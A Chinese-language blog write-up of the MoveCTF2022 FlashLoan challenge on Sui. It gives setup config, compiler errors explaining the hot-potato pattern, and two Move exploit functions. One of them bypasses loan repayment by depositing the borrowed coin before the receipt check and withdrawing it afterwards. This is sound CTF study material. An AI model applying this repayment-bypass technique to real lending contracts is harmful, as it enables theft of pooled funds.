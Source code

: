 +++
title = 'MoveCTF2022 FlashLoan'
date = 2024-05-31T00:37:25Z
+++

原题目在https://github.com/movebit/movectf-4/blob/master/sources/module.move 考察闪电贷    
由于Move2024有些变化，我对源码做了微调https://github.com/m4sk93/movectf/tree/main/movectf2022/flashloan

## 环境搭建
参考[MoveCTF2022 Checkin](https://m4sk93.github.io/posts/movectf2022_1/)部署题目后，  
为了后续调用方便，在配置文件中添加package ID
```
[package]
name = "movectf2022_flashloan"
edition = "2024.beta" # edition = "legacy" to use legacy (pre-2024) Move
# license = ""           # e.g., "MIT", "GPL", "Apache 2.0"
# authors = ["..."]      # e.g., ["Joe Smith (joesmith@noemail.com)", "John Snow (johnsnow@noemail.com)"]
published-at = "0x2a61d471519b8e85a7730bebcfc3c5cace6ffffb2f5576d593821422d514adc2" # package id

[dependencies]
Sui = { git = "https://github.com/MystenLabs/sui.git", subdir = "crates/sui-framework/packages/sui-framework", rev = "framework/testnet" }

[addresses]
#movectf2022_flashloan = "0x0"
movectf2022_flashloan = "0x2a61d471519b8e85a7730bebcfc3c5cace6ffffb2f5576d593821422d514adc2" # package id

```

## 编写exp
为了方便调用，在配置文件中添加依赖
```
[dependencies]
Sui = { git = "https://github.com/MystenLabs/sui.git", subdir = "crates/sui-framework/packages/sui-framework", rev = "framework/testnet" }
movectf2022_flashloan= { local = "../movectf2022_flashloan/" }
```

初步分析getflag时会检查是否已经把池子抽干,直接试试：
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);
    }
}
```
结果编译时就报错
```
error[E06001]: unused value without 'drop'
   ┌─ ./sources/exp.move:9:37
   │
 8 │         let (coin, receipt) = flash::loan(lender, 1000, ctx);
   │              ---- The local variable 'coin' still contains a value. The value does not have the 'drop' ability and must be consumed before the function returns
 9 │         flash::get_flag(lender, ctx);
   │                                     ^ Invalid return
   │
   ┌─ ./../movectf2022_flashloan/sources/movectf2022_flashloan.move:54:9
   │
54 │     ): (Coin<FLASH>, Receipt) {
   │         ----------- The type 'sui::coin::Coin<movectf2022_flashloan::flash::FLASH>' does not have the ability 'drop'
   │
   ┌─ /home/kali/.move/https___github_com_MystenLabs_sui_git_framework__testnet/crates/sui-framework/packages/sui-framework/sources/coin.move:35:19
   │
35 │     public struct Coin<phantom T> has key, store {
   │                   ---- To satisfy the constraint, the 'drop' ability would need to be added here

error[E06001]: unused value without 'drop'
   ┌─ ./sources/exp.move:9:37
   │
 8 │         let (coin, receipt) = flash::loan(lender, 1000, ctx);
   │                    ------- The local variable 'receipt' still contains a value. The value does not have the 'drop' ability and must be consumed before the function returns
 9 │         flash::get_flag(lender, ctx);
   │                                     ^ Invalid return
   │
   ┌─ ./../movectf2022_flashloan/sources/movectf2022_flashloan.move:24:19
   │
24 │     public struct Receipt {
   │                   ------- To satisfy the constraint, the 'drop' ability would need to be added here
   ·
54 │     ): (Coin<FLASH>, Receipt) {
   │                      ------- The type 'movectf2022_flashloan::flash::Receipt' does not have the ability 'drop'
```
所以必须对coin和receipt进行处理,不能让你贷完就跑路
参考 [Hot Potato](https://examples.sui.io/patterns/hot-potato.html)
(Hot Potato is a name for a struct that has no abilities, hence it can only be packed and unpacked in its module. In this struct, you must call function B after function A in the case where function A returns a potato and function B consumes it.)
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);

        flash::repay(lender, coin);
        flash::check(lender, receipt);
    }
}
```
有借有还，这下成功了.
问题来了，可以不还吗？？？
还有一种利用方式
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);

        flash::repay(lender, coin);
        flash::check(lender, receipt);
    }

    public entry fun exp2(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::deposit(lender, coin, ctx);
        flash::check(lender, receipt);
        flash::withdraw(lender, 1000, ctx);

        flash::get_flag(lender, ctx);
    }

}
```
问题在于：通过`flash::check(self, receipt);`消耗`receipt`时不需要传入coin.   
coin也可以通过`deposit`消耗掉.
